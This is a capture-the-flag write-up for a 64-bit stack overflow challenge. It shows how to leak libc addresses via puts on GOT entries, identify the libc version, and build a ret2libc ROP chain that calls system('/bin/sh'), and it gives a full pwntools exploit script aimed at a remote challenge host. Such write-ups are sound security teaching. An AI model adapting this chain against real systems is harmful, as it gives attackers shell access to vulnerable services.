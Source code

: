 ## Pwn3

Start by running checksec on the binary.

![checksec](./screenshots/checksec.png)

We have a 64 bit binary.  PIE is not enable and we don't have a stack canary.  View the decompilation in ghidra.

![ghidra](./screenshots/ghidra.png)

A pretty simple stack buffer overflow.  However this time we don't have any way to execute a shell within the binary.  We will need to utilize libc.

The first step is figuring out where libc is in memory.  We can leak the address by calling puts on the GOT entry.  Start by finding a "pop rdi" gadget.

![ropgadget](./screenshots/ropgadget.png)

0x401232 is what we need.  The buffer overflow will look something like this.

```python
payload = b""
payload += b"A" * 0x28
payload += p64(0x401232)  # pop rdi; ret;
payload += p64(binary.got['puts'])
payload += p64(binary.plt['puts'])
payload += p64(binary.symbols['main'])
```

This ROP chain will let us call puts on the GOT entry of puts.  Calling main address again will let us trigger our exploit multiple times.

Now we need to find out what libc version we are working with.  To do this we will print out multiple memory addresses of libc functions and use https://libc.rip to figure out the version.

```python
p.readuntil("Would you like a flag?\n")

payload = b""
payload += b"A" * 0x28

payload += p64(rdi_gadget)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(main_addr)

p.sendline(payload)

puts_addr = p.readuntil("Would you like a flag?\n")
puts_addr = puts_addr.split(b"\n")[1]
puts_addr = u64(puts_addr + b"\x00" * (8 - len(puts_addr)) )
print(f"puts address: {hex(puts_addr)}")

payload = b""
payload += b"A" * 0x28

payload += p64(rdi_gadget)
payload += p64(fgets_got)
payload += p64(puts_plt)
payload += p64(main_addr)

p.sendline(payload)

fgets_addr = p.readuntil("Would you like a flag?\n")
fgets_addr = fgets_addr.split(b"\n")[1]
fgets_addr = u64(fgets_addr + b"\x00" * (8 - len(fgets_addr)) )
print(f"fgets address: {hex(fgets_addr)}")

payload = b""
payload += b"A" * 0x28

payload += p64(rdi_gadget)
payload += p64(setvbuf_got)
payload += p64(puts_plt)
payload += p64(main_addr)

p.sendline(payload)

setvbuf_addr = p.readuntil("Would you like a flag?\n")
setvbuf_addr = setvbuf_addr.split(b"\n")[1]
setvbuf_addr = u64(setvbuf_addr + b"\x00" * (8 - len(setvbuf_addr)) )
print(f"setvbuf address: {hex(setvbuf_addr)}")
```

![libc](./screenshots/libc.png)

We had an issue getting the address for fgets but we should have enough.

![libcrip](./screenshots/libcrip.png)

We have 4 results.  After some guessing and checking I figured out they were using libc6_2.35-0ubuntu3_amd64.  We can download it and use it in our pwn script.

Now we need a buffer overflow that will execute a shell.  I decided to call system on the "/bin/sh" string in the libc rodata section.  With that we should have everything we need to finish our exploit.

#### exploit.py
```python
from pwn import *

binary = context.binary = ELF("./pwn3")
libc = ELF("./libc6_2.35-0ubuntu3_amd64.so")

# puts GOT = 0x404018
puts_got = binary.got['puts']
# fgets GOT = 0x404020
fgets_got = binary.got['fgets']
# setvbuf GOT = 0x404028
setvbuf_got = binary.got['setvbuf']
# puts PLT = 0x401060
puts_plt = binary.plt['puts']
# puts in libc = 0x184ed0
puts_libc = libc.symbols['puts']
# main address = 0x4011db
main_addr  = binary.symbols['main']
# system address = 0x54ae0
system_off = libc.symbols['system']
# "/bin/sh" address = 0x1d8698
binsh_off  = 0x1d8698

rdi_gadget = 0x401232
ret_gadget = 0x401233

if args.REMOTE:
    p = remote('challs.n00bzunit3d.xyz', 42450)
elif args.GDB:
    p = gdb.debug(binary.path, env={"LD_PRELOAD":libc.path})
else:
    p = process(binary.path, env={"LD_PRELOAD":libc.path})

p.readuntil("Would you like a flag?\n")

payload = b""
payload += b"A" * 0x28

payload += p64(rdi_gadget)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(main_addr)

p.sendline(payload)

puts_addr = p.readuntil("Would you like a flag?\n")
puts_addr = puts_addr.split(b"\n")[1]
puts_addr = u64(puts_addr + b"\x00" * (8 - len(puts_addr)) )
print(f"puts address: {hex(puts_addr)}")

payload = b""
payload += b"A" * 0x28

payload += p64(rdi_gadget)
payload += p64(fgets_got)
payload += p64(puts_plt)
payload += p64(main_addr)

p.sendline(payload)

fgets_addr = p.readuntil("Would you like a flag?\n")
fgets_addr = fgets_addr.split(b"\n")[1]
fgets_addr = u64(fgets_addr + b"\x00" * (8 - len(fgets_addr)) )
print(f"fgets address: {hex(fgets_addr)}")

payload = b""
payload += b"A" * 0x28

payload += p64(rdi_gadget)
payload += p64(setvbuf_got)
payload += p64(puts_plt)
payload += p64(main_addr)

p.sendline(payload)

setvbuf_addr = p.readuntil("Would you like a flag?\n")
setvbuf_addr = setvbuf_addr.split(b"\n")[1]
setvbuf_addr = u64(setvbuf_addr + b"\x00" * (8 - len(setvbuf_addr)) )
print(f"setvbuf address: {hex(setvbuf_addr)}")

libc_base = puts_addr - puts_libc
system_addr   = libc_base + system_off
binsh_addr    = libc_base + binsh_off

payload = b""
payload += b"A" * 0x28
payload += p64(rdi_gadget)
payload += p64(binsh_addr)
payload += p64(ret_gadget)
payload += p64(system_addr)

p.sendline(payload)

p.interactive()
```

![exploit](./screenshots/exploit.png)

Success!